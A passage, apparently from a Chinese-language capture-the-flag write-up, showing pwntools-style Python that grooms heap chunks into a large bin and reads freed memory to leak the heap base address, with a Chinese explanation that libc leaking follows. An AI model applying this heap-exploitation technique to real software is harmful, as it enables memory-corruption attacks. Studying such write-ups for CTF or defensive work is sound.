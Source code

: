```python
add(0x60)   # 8

add(0x3e0)  # 9
add(0x30)   # 10
add(0x3f0)  # 11
add(0x30)   # 12
add(0x3e0)  # 13
add(0x30)   # 14

# fill the bk_nextside
# and alloc a larger chunk to
# add there chunks to largebin list
dele(9)
dele(11)
dele(0)

add(0x400)  # 0
#gdb.attach(p)
show(9)

# Hence we can leak the chunk address
rv("description:")
chunk_base=u64(p.recv(6)+2*'\x00')-0x8d0
log.info("chunk base is "+hex(chunk_base))


```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为输出是从chunk+0x18的位置开始输出的，所以正好可以输出large bin的bk_nextsize,因此可以计算出堆基址。然后我们开始leak libc的基址，这里我们构造如下堆结构：</font></br>